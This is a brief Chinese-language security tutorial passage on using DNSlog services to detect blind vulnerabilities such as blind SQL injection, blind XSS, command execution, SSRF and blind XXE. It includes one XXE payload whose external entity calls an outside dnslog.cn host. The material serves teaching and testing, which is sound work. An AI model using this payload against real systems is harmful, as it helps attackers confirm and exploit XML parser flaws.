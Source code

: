 
# 补充

### DNSlog

DNSlog就是存储在DNS服务器上的域名信息，它 记录着用户对域名www.baidu.com等的访问信息，类似日志文件 ；针对前面五种无法回显的方法，可以使用deslog来证明其是否存在 盲xxe

dnslog通常用在哪个地方

    1.SQL盲注
    2.无回显的XSS
    3.无回显的命令执行
    4.无回显的SSRF
    5.Blind XXE
    

payload


```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY 
[<!ENTITY xxe SYSTEM "http://obfz0y.dnslog.cn" >]
>
   <value>&xxe;</value>
```

    

![图片.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20220904%2F1662280107_631461ab95083d387cefc.png%21small)